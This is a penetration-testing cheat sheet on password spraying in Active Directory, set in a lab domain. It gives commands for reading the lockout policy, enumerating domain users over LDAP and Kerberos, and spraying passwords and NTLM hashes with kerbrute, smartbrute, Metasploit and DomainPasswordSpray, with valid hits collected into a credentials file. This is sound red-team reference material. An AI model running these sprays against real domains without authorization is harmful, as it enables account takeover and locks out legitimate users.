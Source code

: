 # Password Spraying




## Password Policy

Enumerate password policy in the domain:

```
$ cme smb 10.10.13.37 -u snovvcrash -p 'Passw0rd!' --pass-pol
Cmd > net accounts /domain
PS > Get-ADDefaultDomainPasswordPolicy
PV3 > Get-DomainPolicyData | select -ExpandProperty SystemAccess
```

Example of `net accounts` output:

| Name (EN)                              | Name (RU)                                 | Value |
|----------------------------------------|-------------------------------------------|-------|
| Minimum password age (days):           | Минимальный срок действия пароля (дней):  | 1     |
| Maximum password age (days):           | Максимальный срок действия пароля (дней): | 90    |
| Minimum password length:               | Минимальная длина пароля:                 | 10    |
| Length of password history maintained: | Хранение неповторяющихся паролей:         | 24    |
| Lockout threshold:                     | Блокировка после ошибок ввода пароля:     | 7     |
| Lockout duration (minutes):            | Длительность блокировки (минут):          | 30    |
| Lockout observation window (minutes):  | Сброс счетчика блокировок через (минут):  | 30    |



### Fine-Grained Password Policies

- [https://specopssoft.com/blog/create-fine-grained-password-policy-active-directory/](https://specopssoft.com/blog/create-fine-grained-password-policy-active-directory/)
- [https://pwsh.ru/fine-grained-password-policy-как-создать-детальную-политику/](https://pwsh.ru/fine-grained-password-policy-как-создать-детальную-политику/)

Map FGPPs to the users they're being applied to (need admin privileges by default):

```powershell
ForEach ($fgpp in (Get-ADFineGrainedPasswordPolicy -Filter * -Properties Description)) {
    $appliesTo = $fgpp | select -ExpandProperty AppliesTo
    $objectClass = (Get-ADObject $appliesTo).ObjectClass

    Write-Host -ForegroundColor Yellow "`r`nFine Grained Password Policy: $fgpp.name"
    $fgpp | Out-Host

    If ($objectClass -eq "group") {
        Get-ADGroupMember $appliesTo -Recursive | ? {$_.objectClass -eq "user"} | select -ExpandProperty samAccountName | Write-Host -ForegroundColor Green
    }
    ElseIf ($objectClass -eq "user") {
        Get-ADUser $appliesTo | select -ExpandProperty samAccountName | Write-Host -ForegroundColor Green
    }
}
```

{% hint style="info" %}
When it's critical not to cause a lockout on a user account with a FGPP applied, the safest approach would be to exclude users with `msDS-PSOApplied` or `msDS-ResultantPSO` properties populated (can be read by a regular user) from the spray list.

Check if exists:

```
PS > Get-ADUser snovvcrash -Properties * | select msDS-PSOApplied
PS > Get-ADUser snovvcrash -Properties msDS-ResultantPSO | select msDS-ResultantPSO
```
{% endhint %}




## Get Domain Users



### Non-Authenticated

{% content-ref url="/pentest/infrastructure/ad/rid-cycling.md" %}
[rid-cycling.md](rid-cycling.md)
{% endcontent-ref %}

If SMB null sessions are allowed on the DC, an adversary can get a list of all domain users via **RID Cycling**.



### Authenticated

Query LDAP for all domain user accounts via [GetADUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetADUsers.py):

```
$ GetADUsers.py MEGACORP/snovvcrash:'Passw0rd!' -all -dc-ip 192.168.1.11 | tee ~/ws/log/GetADUsers.out
```

Query LDAP for all domain user accounts via [windapsearch](https://github.com/ropnop/windapsearch):

```
$ python3 windapsearch.py --dc-ip 192.168.1.11 -d megacorp.local -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' -U | tee ~/ws/log/windapsearch.out
$ cat ~/ws/log/windapsearch.out | grep userPrincipalName | grep -v -e '{' -e '}' -e HealthMailbox | awk '{print $2}' | awk -F@ '{print $1}' | perl -nle 'print if m{^[[:ascii:]]+$}' > ~/ws/enum/all-users.txt
```

Query LDAP for all **active** domain user accounts via [go-windapsearch](https://github.com/ropnop/go-windapsearch):

```
$ windapsearch --dc 192.168.1.11 -d megacorp.local -u snovvcrash -p 'Passw0rd!' -m custom --filter '(&(objectCategory=person)(objectClass=user)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))' --attrs sAMAccountName,mail,pwdLastSet,lastLogon | tee ~/ws/log/windapsearch.out
$ cat ~/ws/log/windapsearch.out | grep -i samaccountname | grep -v -e '{' -e '}' -e HealthMailbox -e '\$$' | awk '{print $2}' | perl -nle 'print if m{^[[:ascii:]]+$}' | sort -u > ~/ws/enum/all-users-active.txt
```




## MSF

```
msf > use auxiliary/scanner/smb/smb_login
msf > set RHOSTS <DC_IP>
msf > set SMBDomain megacorp.local
msf > set SMBPass Passw0rd!
msf > set USER_FILE /home/snovvcrash/ws/enum/all-users.txt
msf > set VERBOSE False
msf > run
```




## kerbrute

* [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)
* [https://github.com/urbanadventurer/username-anarchy](https://github.com/urbanadventurer/username-anarchy)
* [https://gist.github.com/superkojiman/11076951](https://gist.github.com/superkojiman/11076951)

Generate a wordlist of common usernames in an appropriate format and validate it against KDC ([doesn't cause](https://github.com/ropnop/kerbrute#user-enumeration) accounts lock out):

```
$ kerbrute userenum -d megacorp.local -o ~/ws/log/kerbrute-userenum.log ~/ws/enum/names.txt
$ cat ~/ws/log/kerbrute-userenum.log | grep VALID | awk '{print $7}' | awk -F@ '{print $1}' > ~/ws/enum/valid-users.txt
```

Perform password spraying for discovered accounts:

```
$ kerbrute -v --delay 100 passwordspray -d megacorp.local -o ~/ws/log/kerbrute-passwordspray-'123456'.log ~/ws/enum/valid-users.txt '123456'
$ cat ~/ws/log/kerbrute-passwordspray-'123456'.log | grep VALID | awk '{print $7}' >> ~/ws/loot/creds.txt
```




## pyKerbrute

- [https://github.com/3gstudent/pyKerbrute](https://github.com/3gstudent/pyKerbrute)

```
$ python2 ADPwdSpray.py 192.168.1.11 megacorp.local users.txt ntlmhash fc525c9683e8fe067095ba2ddc971889 udp
```




## smartbrute

- [https://github.com/ShutdownRepo/smartbrute](https://github.com/ShutdownRepo/smartbrute)

Spray single hash against a list of users:

```
$ smartbrute -v brute --delay 100 --no-enumeration -bU users.txt -bh <HASH_TO_SPRAY> kerberos -d megacorp.local --kdc-ip 192.168.1.11
```

Get domain password policy and active users:

```
$ smartbrute -v smart {--policy|--users} ntlm -d megacorp.local -u snovvcrash -p 'Passw0rd!' --dc-ip 192.168.1.11
```

Launch smart password spray with a hash:

```
$ smartbrute -v smart --delay 100 -bh <HASH_TO_SPRAY> ntlm -d megacorp.local -u snovvcrash -p 'Passw0rd!' --dc-ip 192.168.1.11 kerberos
```




## DomainPasswordSpray

* [https://github.com/dafthack/DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

```
PS > Invoke-DomainPasswordSpray -UserList .\all-users.txt -Domain megacorp.local -Password 'Passw0rd!' -OutFile spray-results.txt
```
